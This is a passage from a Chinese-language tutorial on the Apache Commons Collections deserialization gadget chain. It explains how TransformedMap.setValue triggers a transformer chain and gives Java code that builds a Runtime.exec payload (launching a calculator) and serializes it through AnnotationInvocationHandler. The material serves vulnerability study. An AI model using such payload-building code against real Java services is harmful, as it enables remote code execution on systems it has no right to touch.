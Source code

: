 从上述函数说明的注释中可以看出，在调用`setValue`函数时会调用此函数。具体地，`setValue`函数的实现在抽象类`AbstractInputCheckedMapDecorator`（即为`TransformedMap`类的父类）中，`setValue`函数实现如下：

```java
public Object setValue(Object value) {  
    value = parent.checkSetValue(value);
    return entry.setValue(value);       
}
```

所以在`Transformed`类的`setValue`方法被调用时，即可触发命令执行，弹出计算器。如下：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"gnome-calculator"})
};
Transformer transformedChain = new ChainedTransformer(transformers);


Map normalMap = new HashMap();
normalMap.put("key", "value");

Map transformedMap = TransformedMap.decorate(normalMap, null, transformedChain);


Map.Entry entry = (Map.Entry) transformedMap.entrySet().iterator().next();
entry.setValue("test");
```

反序列化漏洞触发的另一个重要的类是`AnnotationInvocationHandler`类，在网上的其他资料中，显示此类的`readObject`函数中调用了`setValue`函数。利用反射机制生成序列化结果的payload，对该序列化结果进行反序列化即可触发命令执行。生成payload的代码如下：

```java
Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class}, new Object[] {"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class}, new Object[] {null, new Object[0]}),
        new InvokerTransformer("exec", new Class[] {String.class}, new Object[] {"gnome-calculator"})
};
Transformer transformedChain = new ChainedTransformer(transformers);


Map normalMap = new HashMap();
normalMap.put("key", "value");

Map transformedMap = TransformedMap.decorate(normalMap, null, transformedChain);


Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);
Object instance = ctor.newInstance(Retention.class, transformedMap);

// the function to write searialized object to file
serialize_write_file(instance);
```
